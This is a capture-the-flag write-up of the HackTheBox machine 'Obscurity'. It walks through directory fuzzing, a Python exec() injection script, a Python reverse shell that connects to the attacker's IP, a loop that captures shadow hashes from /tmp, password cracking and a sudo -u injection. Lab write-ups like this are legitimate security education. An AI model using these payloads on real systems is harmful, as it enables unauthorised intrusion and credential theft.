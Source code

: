 ```yaml
---
title: "HackTheBox: Obscurity"
date: "2020-05-09"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/obscurity/htb-obscurity.png)

* * *

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: OpenSSH 7.6p1
- 80: Closed HTTP
- 8080: BadHTTPServer

![Image](assets/img/writeups/hackthebox/obscurity/image-10.png)

## Host enumeration - 8080

Interestingly, the version of this service is BadHTTPServer... I am unfamiliar with this service. Due to the nature of HTTP, we navigate to it using the browser and we see a note; their motto is _security through obscurity!_ Interesting for sure. In my secure software development class at university, we were taught that security by obscurity offers no security, and it's only a matter of time until an attacker finds out.

When scrolling down a little, there is a second note from the developers. The web server code is in the **SuperSecureServer.py** file, in the secret development directory. This is where security by obscurity comes into action. The secret development directory is only supposed to be known to those authorized, however we are hackers and can use enumeration tools ;)

![Image](assets/img/writeups/hackthebox/obscurity/image-11-1024x187.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-12.png)

Lets use wfuzz to try and find the directory which SuperSecureServer.py is hidden in. The command can be seen below. The `FUZZ` is the placeholder/ field that is fuzzed by the wordlist. We place `/SuperSecureServer.py` afterwards so that when the correct directory is placed in the field, then we should get a HTTP 200 OK response.

```sh
$ wfuzz -w '/usr/share/wordlists/dirb/common.txt' \
-u 'http://10.10.10.168:8080/FUZZ/SuperSecureServer.py' \
--hc 404,500 -c
```

![Image](assets/img/writeups/hackthebox/obscurity/image-13.png)

Bingo! The secret directory is `develop`. Not so secret after all. Alright, now we have access to the software running the web server. Thankfully Python is an interpreted code language, and does not always get compiled. Hence, we are able to read the source code without any binary reversing.

* * *

## Getting the initial shell

We have to do a code review, perhaps there is some insecure software development which we can exploit. It seems that the web server serves documents which the user controls and is executed using the unsafe `exec()` function.

![Image](assets/img/writeups/hackthebox/obscurity/image-15.png)

Alright, it's time to buckle up and see if we can get RCE by escaping the `exec()`. This is the idea:

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = 'foo'
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

So we just need to change the `path` to get RCE.

```py
# the desired output
# ' import os;os.system("ping -c 2 10.10.15.95") a='
# together:
path = '\'' + '\nimport os;os.system("ping -c 2 10.10.15.95")\na=\''
```

![Image](assets/img/writeups/hackthebox/obscurity/image-17.png)

So all we need to do to get the reverse shell is to place some Python reverse shellcode (Credit to) [pentest monkey reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = '\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.95",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])\na=\''

print("[+] Sending payload. \n[+] Check netcat listener")
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

![Image](assets/img/writeups/hackthebox/obscurity/image-18.png)

* * *

## Pivot from www-data to Robert

The www-data is able to read the files (but not user.txt!) in the `Robert` home directory. There are some interesting files. I guess we will have to do our second code review, this time against SuperSecureCrypt.py

- check.txt
- out.txt
- passwordreminder.txt
- SuperSecureCrypt.py

![Image](assets/img/writeups/hackthebox/obscurity/image-19.png)

> Don't roll your own crypto
>
> Lecturer at Napier University

![Image](assets/img/writeups/hackthebox/obscurity/image-21.png)

OK so, we see that the encrypt function looks like a ROT13 cipher, but rotation by 255 rather than 13, using a key that is the length of the cipher text. Welcome to a crypto CTF challenge!

Pretty much, what we have to do is use the out.txt as an input file, use the contents of check.txt as the key, and use the `-d` flag to decrypt out.txt. This will give is the encryption key:

```sh
$ python3 SuperSecureCrypt.py \
-i out.txt
-k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' \
-o passwd-dec.txt \
-d \
&& cat passwd-dec.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

So, now we can use the key to decrypt the password.

```sh
$ python3 SuperSecureCrypt.py \
-i passwordreminder.txt
-k 'alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich'
-o passwordreminder-out.txt
-d \
&& cat passwordreminder-out.txt
SecThruObsFTW
```

![Image](assets/img/writeups/hackthebox/obscurity/image-22.png)

Now we are able to log in to the SSH service with `robert:SecThruObsFTW` credentials.

* * *

## Escalating to Root

When executing `sudo -l` we are able to see whether Robert can execute any scripts as root.

![Image](assets/img/writeups/hackthebox/obscurity/image-24-1024x121.png)

Robert can execute BetterSSH.py as root. There is a bit of a theme developing; it seems that we have to code review again now. We see a big no-no. Instead of using the native SSH binary, the creators created their own - which is supposed to be better. However, there is a gaping mistake in it. It writes the hashes of the **shadow** file to /tmp/SSH/ for 0.1 seconds. Sounds secure, but we can exploit this. We must execute the script as root because otherwise it is not possible to read the shadow hashes.

![Image](assets/img/writeups/hackthebox/obscurity/image-25.png)

There are actually two methods here. The second method I didn't know until I discussed it with another player.

### Method 1 to get root

As the root hash is only placed in the /tmp/SSH directory for 0.1 seconds, we need to create a loop that will cat all files.

```sh
while true; do cat /tmp/SSH/* ; done
```

In a second terminal, we must execute BetterSSH.py as root (using Robert the user) and login with our credentials. Then the root hash will be printed in the first terminal. We can use John to crack the password.

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
mercedes
```

![Image](assets/img/writeups/hackthebox/obscurity/image-26.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-27.png)

We can use the password to switch to the root user in the robert SSH session. While the password could have been brute forced straight away, we cannot login to root through SSH externally, so that would have failed.

![Image](assets/img/writeups/hackthebox/obscurity/image-28.png)

### Method 2 to get root

So, when we run binaries as sudo we can also execute commands as another user, e.g.
`sudo -u foo script.sh` to run script.sh as foo user. We can do:
`-u root cat /root/root.txt` in the BetterSSH shell to get the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-29.png)

We must do a code review to understand _why_ this really works. The screenshot below shows the code that is executed when a user types a command. The key line is highlighted in the orange box.

The BetterSSH is running under root context. To enable user permissions, `sudo -u <username>` is used to execute commands as the authenticated user. However, when we use the command `-u root $command` then we place it in `sudo -u robert -u root $command`. The sudo binary takes the root user, and executes `cat /root/root.txt` to give us the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-31.png)
